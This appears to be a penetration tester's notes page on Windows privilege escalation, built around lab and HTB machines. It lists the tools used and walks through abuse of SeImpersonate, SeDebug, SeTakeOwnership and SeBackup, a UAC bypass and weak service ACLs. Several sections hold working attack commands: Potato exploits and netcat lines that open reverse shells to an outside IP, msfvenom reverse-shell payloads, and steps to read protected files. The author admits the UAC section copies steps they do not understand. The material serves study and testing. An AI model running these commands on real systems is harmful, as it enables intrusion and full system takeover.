

# Windows Privilege Escalation

## Toolkit&#x20;

<table data-search="false"><thead><tr><th width="165.20001220703125">Tool</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://github.com/GhostPack/Seatbelt">Seatbelt</a></td><td>C# project for performing a wide variety of local privilege escalation checks</td></tr><tr><td><a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS">winPEAS</a></td><td>WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained <a href="https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html">here</a></td></tr><tr><td><a href="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1">PowerUp</a></td><td>PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found</td></tr><tr><td><a href="https://github.com/GhostPack/SharpUp">SharpUp</a></td><td>C# version of PowerUp</td></tr><tr><td><a href="https://github.com/411Hall/JAWS">JAWS</a></td><td>PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0</td></tr><tr><td><a href="https://github.com/Arvanaghi/SessionGopher">SessionGopher</a></td><td>SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information</td></tr><tr><td><a href="https://github.com/rasta-mouse/Watson">Watson</a></td><td>Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.</td></tr><tr><td><a href="https://github.com/AlessandroZ/LaZagne">LaZagne</a></td><td>Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more</td></tr><tr><td><a href="https://github.com/bitsadmin/wesng">Windows Exploit Suggester - Next Generation</a></td><td>WES-NG is a tool based on the output of Windows' <code>systeminfo</code> utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite">Sysinternals Suite</a></td><td>We will use several tools from Sysinternals in our enumeration including <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk">AccessChk</a>, <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist">PipeList</a>, and <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/psservice">PsService</a></td></tr></tbody></table>

We can also find pre-compiled binaries of `Seatbelt` and `SharpUp` [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries), and standalone binaries of `LaZagne` [here](https://github.com/AlessandroZ/LaZagne/releases/). It is recommended that we always compile our tools from the source if using them in a client environment.


**Note**_**:**_

&#x20;_Depending on how we gain access to a system we may not have many directories that are writeable by our user to upload tools. It is always a safe bet to upload tools to `C:\Windows\Temp` because the `BUILTIN\Users` group has write access._


## Abusing SeImpersonate Privilege&#x20;

<details>

<summary><strong>Creating the vulnerable Environment</strong></summary>

## Create user&#x20;


```cmd
net user <username> <password> /add
```


<figure><figcaption></figcaption></figure>

## Assign Privileges


```
Win + R
→ secpol.msc
→ Local Policies
→ User Rights Assignment
→ Impersonate a client after authentication
```


<figure><figcaption></figcaption></figure>

## Verify&#x20;

Open the cmd with administrator in `esc_priv_user` and check permissions.&#x20;

<figure><figcaption></figcaption></figure>

</details>

SeImpersonatePrivilege is a Windows privilege that allows a process to **impersonate the security token of another account** that connects to it. It is granted by default to service accounts like those running **IIS and SQL Server**, which is exactly why it is the most common Windows escalation path: an attacker who lands as such a service account uses a **Potato attack** to trick a SYSTEM process into authenticating, captures its token, and becomes **SYSTEM**. The first check on any Windows host is `whoami /priv`.

### Check Privilege&#x20;


```
whoami /priv
```


<figure><figcaption></figcaption></figure>

### Using PrintSpoofer.exe


```cmd
.\PrintSpoofer64.exe -c "C:\Tools\nc.exe 192.168.16.138 9090 -e cmd"
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### &#x20;Using GodPotato&#x20;


```cmd
.\GodPotato-Net4.exe -cmd "cmd /c C:\Tools\nc.exe 192.168.16.138 9000 -e cmd"
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Using SigmaPotato.exe&#x20;


```cmd
.\SigmaPotato.exe --revshell 192.168.16.138 9000
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Using JuicyPotatoNG.exe&#x20;


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.16.138 LPORT=4545 -f exe -o shell.exe
```


<figure><figcaption></figcaption></figure>


```bash
JuicyPotatoNG.exe -t * -p C:\Users\esc_priv_user\Downloads\shell.exe -l 4545
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Abusing SeDebugPrivilege Privilege

<details>

<summary><strong>Create the vulnerable environment</strong></summary>

This privilege can be assigned via local or domain group policy, under `Local Security Policy > Security Settings > User right Assignments > Debug Program > Add user`.&#x20;

<figure><figcaption></figcaption></figure>


</details>

To run a particular application or service or assist with troubleshooting, a user might be assigned the SeDebugPrivilege instead of adding the account into the administrators group.


_By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job._


### Identify Privileges&#x20;


```cmd
whoami /priv
```


<figure><figcaption></figcaption></figure>

### Identify the parent process PID


_We target `winlogon.exe` because it normally runs as **SYSTEM**, making it a suitable privileged parent process for a `SeDebugPrivilege`-based escalation._



```cmd
tasklist /v | findstr "winlogon.exe"
```


<figure><figcaption></figcaption></figure>

### Escalate Privileges&#x20;

Download tool [here](https://github.com/decoder-it/psgetsystem).&#x20;

<figure><figcaption></figcaption></figure>

## Unauthorized File Read/Write

### Using SeTakeOwnership Privileges (Write)

_SeTakeOwnership allows a user to take ownership of securable objects such as files, folders, registry keys, services, etc. After becoming the owner, you may need to modify the ACL to actually access the object._

#### Identify Privileges&#x20;


```
whoami /priv
```


<figure><figcaption></figcaption></figure>

#### Take Ownership

After taking the ownership the file can even be modified as well.&#x20;

```
takeown /f <file>
icacls <file> /grant <our user>:F
type <file>
```

<figure><figcaption></figcaption></figure>

### Using SeBackupPrivilege (Read)

#### Check Our Privileges&#x20;


```cmd
whoami /groups
whoami /priv
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Enable SeBackupPrivilege


```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
whoami /priv
```


<figure><figcaption></figcaption></figure>

#### Access Unauthorized Files&#x20;

1. **Using SeBackupPrivilege DLLs**


```cmd
Copy-FileSeBackupPrivilege C:\Secret\imp.txt .\secretfile.txt
```


<figure><figcaption></figcaption></figure>

2. **Using robocopy**


```
robocopy /B C:\Secret .\ imp.txt
```


<figure><figcaption></figcaption></figure>

## Abusing UAC&#x20;


_Need to update this. Don't know exactly how this happens. Just reproduced the exact steps from HTB. Contact creator if this content is not updated._&#x20;


### Confirming UAC is enabled&#x20;


```cmd
 REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```


<figure><figcaption></figcaption></figure>

### Checking UAC Level&#x20;

#### UAC Levels&#x20;

* **0 — Never notify:** UAC prompts are disabled; lowest security.
* **1 — Prompt for credentials on secure desktop:** Admin must enter credentials.
* **2 — Prompt for consent on secure desktop:** Admin must approve.
* **3 — Prompt for credentials:** Credentials required, but not on secure desktop.
* **4 — Prompt for consent:** Admin simply approves.
* **5 — Prompt for consent for non-Windows binaries:** Default; prompts when a non-Windows app requests elevation.


```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```


<figure><figcaption></figcaption></figure>

### Check Windows Version


_From here on, we'll switch to an HTB vulnerable machine to demonstrate UAC bypass techniques._


UAC bypasses leverage flaws or unintended functionality in different Windows builds. Let's examine the build of Windows we're looking to elevate on.


```powershell
[environment]::OSVersion.Version
```


<figure><figcaption></figcaption></figure>

### Escalating Privileges&#x20;


```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```


<figure><figcaption></figcaption></figure>

#### Testing Normal Connection&#x20;


```cmd
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```


<figure><figcaption></figcaption></figure>

We can see normal user's rights.&#x20;


```cmd
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```


<figure><figcaption></figcaption></figure>

## Weak Permissions

### Abusing Modifiable Service Binaries

<details>

<summary><strong>Create the vulnerable Environment</strong></summary>

## Create a service

Note that we've made this service with Administrator privileges.&#x20;

1. `New-Item -ItemType Directory -Path "C:\Program Files\VulnService" -Force`

<figure><figcaption></figcaption></figure>

2. Create legitimate-looking service.


```powershell
$code = @'
using System;
using System.IO;

class Program
{
    static void Main()
    {
        string dir = @"C:\ProgramData\VulnService";
        Directory.CreateDirectory(dir);

        string log = Path.Combine(dir, "maintenance.log");

        using (StreamWriter w = new StreamWriter(log, false))
        {
            w.WriteLine("========================================");
            w.WriteLine("      Windows System Maintenance");
            w.WriteLine("========================================");
            w.WriteLine("Computer Name    : " + Environment.MachineName);
            w.WriteLine("User Context     : " + Environment.UserName);
            w.WriteLine("User Domain      : " + Environment.UserDomainName);
            w.WriteLine("OS Version       : " + Environment.OSVersion);
            w.WriteLine("64-bit OS        : " + Environment.Is64BitOperatingSystem);
            w.WriteLine("Processor Count  : " + Environment.ProcessorCount);
            w.WriteLine("Windows Directory: " + Environment.GetEnvironmentVariable("WINDIR"));
            w.WriteLine("Program Files    : " + Environment.GetEnvironmentVariable("ProgramFiles"));
            w.WriteLine("Report Generated : " + DateTime.Now);
            w.WriteLine("========================================");
        }
    }
}
'@

Add-Type -TypeDefinition $code -OutputAssembly "C:\Program Files\VulnService\Service.exe"
```


3. Test the service&#x20;


```ps1
& "C:\Program Files\VulnService\Service.exe"
type C:\programData\VulnService\maintenance.log
```


<figure><figcaption></figcaption></figure>

## Turn it into a Windows Service&#x20;


```ps
sc create VulnService binPath= "C:\Program Files\VulnService\Service.exe" start= auto obj= LocalSystem
```


* **`create VulnService`** → Creates a service named `VulnService`.
* **`binPath=`** → Specifies the executable the service will run.
* **`start= demand`** → Service starts **manually**, not automatically at boot.
* **`obj= LocalSystem`** → Service runs as the **LocalSystem account**, which has very high privileges.

<figure><figcaption></figcaption></figure>

## Give `esc_priv_user` full control over the binary


```powershell
icacls "C:\Program Files\VulnService\Service.exe" /grant esc_priv_user:F
```


<figure><figcaption></figcaption></figure>

</details>

#### Manual Weak Service Binary ACL Discovery

1. **Enumerate all services**&#x20;


```cmd
wmic service get name,displayname,pathname,startname
```


<figure><figcaption></figcaption></figure>

2. **Query individual service and identify its binary and Start type** &#x20;


```cmd
sc.exe qc VulnService
```


<figure><figcaption></figcaption></figure>

3. **Check the Executable ACL**&#x20;


```cmd
icacls <binary location>
```


<figure><figcaption></figcaption></figure>

#### Using Custom PowerShell Script to identify Weak Service ACL


```ps1
$currentUser = [System.Security.Principal.WindowsIdentity]::GetCurrent()

# Current user + groups
$identities = @(
    $currentUser.Name
    $currentUser.Groups | ForEach-Object {
        try {
            $_.Translate([System.Security.Principal.NTAccount]).Value
        }
        catch {}
    }
)

Write-Host ""
Write-Host "Current User: $($currentUser.Name)"
Write-Host "Checking service executable ACLs..."
Write-Host ""

$services = Get-CimInstance Win32_Service

foreach ($service in $services) {

    $path = $service.PathName

    if ([string]::IsNullOrWhiteSpace($path)) {
        continue
    }

    # Extract executable path from quoted/unquoted service command line
    if ($path -match '^"([^"]+\.exe)"') {
        $exe = $matches[1]
    }
    elseif ($path -match '^(.+?\.exe)(?:\s|$)') {
        $exe = $matches[1]
    }
    else {
        continue
    }

    if (-not (Test-Path -LiteralPath $exe -PathType Leaf)) {
        continue
    }

    try {
        $acl = Get-Acl -LiteralPath $exe -ErrorAction Stop
    }
    catch {
        continue
    }

    $interesting = @()

    foreach ($rule in $acl.Access) {

        $identity = $rule.IdentityReference.Value

        # Only consider identities belonging to current user/groups
        if ($identities -contains $identity) {

            $rights = $rule.FileSystemRights.ToString()

            if ($rights -match 'FullControl|Modify|Write') {

                $interesting += [PSCustomObject]@{
                    Identity   = $identity
                    Rights     = $rights
                    AccessType = $rule.AccessControlType
                }
            }
        }
    }

    if ($interesting.Count -gt 0) {

        Write-Host "========================================"
        Write-Host "SERVICE : $($service.Name)"
        Write-Host "DISPLAY : $($service.DisplayName)"
        Write-Host "BINARY  : $exe"
        Write-Host "RUN AS  : $($service.StartName)"
        Write-Host ""

        $interesting | Format-Table -AutoSize

        Write-Host ""
    }
}
```



```powershell
.\Find-WeakServiceBinaries.ps1
```


<figure><figcaption></figcaption></figure>

#### Escalating the privileges

<figure><figcaption></figcaption></figure>

### Abusing Modifiable Services&#x20;

